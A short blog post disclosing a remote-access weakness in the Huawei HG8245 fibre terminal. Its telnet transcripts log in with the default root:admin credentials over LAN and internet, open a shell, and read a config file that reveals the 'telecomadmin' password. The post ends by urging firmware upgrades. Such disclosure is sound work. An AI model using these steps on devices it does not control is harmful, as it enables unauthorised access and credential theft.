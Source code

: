 ```yaml
---
layout: post
title:  HG8245 - Internet Backdoor and Remote Access
author: eka
tags:
- HG8245
- Huawei
- ONT
- Wifi Router
---
```


Hackers are very unlikely to break in to SOHO network from serial port, like in [this post](/2015/05/07/hg8245-root-password-to-reveal-hidden-menu.html). This post is showing you that HG8245 can be exploited to get root access from the internet. The root password is permanently stored in the flash ROM and cannot be changed.

The setup was very easy. One computer was connected to HG8245 through a LAN cable. Then I ran telnet and use root:admin access. Voila, connection was established! The next commmand was easy, call the <code>shell</code>.

<!--more-->

<pre><code>telnet 192.168.1.1
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.

Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.

Login:root
Password:*****
WAP>shell

BusyBox v1.4.1 (2011-07-29 10:25:20 HKT) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

WAP(Dopra Linux) # grep telecomadmin /mnt/jffs2/hw_ctree.xml
&lt;X_HW_WebUserInfoInstance InstanceID="2" UserName="telecomadmin" Password="nE7jA%5m" UserLevel="0" Enable="1"/&gt;
WAP(Dopra Linux) # </code></pre>

Alright... alright... probably because it is local, LAN access. What about telnetting from the internet? First, connect the HG8245 to your ISP provider and find its IP address. Then telnetting...

<pre><code>telnet 183.x.x.x
Trying 183.x.x.x...
Connected to 183.x.x.x.
Escape character is '^]'.

Welcome Visiting Huawei Home Gateway
Copyright by Huawei Technologies Co., Ltd.

Login:root
Password:*****
WAP>shell

BusyBox v1.4.1 (2011-07-29 10:25:20 HKT) Built-in shell (ash)
Enter 'help' for a list of built-in commands.

WAP(Dopra Linux) # grep telecomadmin /mnt/jffs2/hw_ctree.xml
&lt;X_HW_WebUserInfoInstance InstanceID="2" UserName="telecomadmin" Password="nE7jA%5m" UserLevel="0" Enable="1"/&gt;
WAP(Dopra Linux) # </code></pre>

Unbelievable! Super scary! Too easy to break in! Anyone owns one of this ONT should try to upgrade to the latest firmware. Better yet, install OpenWrt!
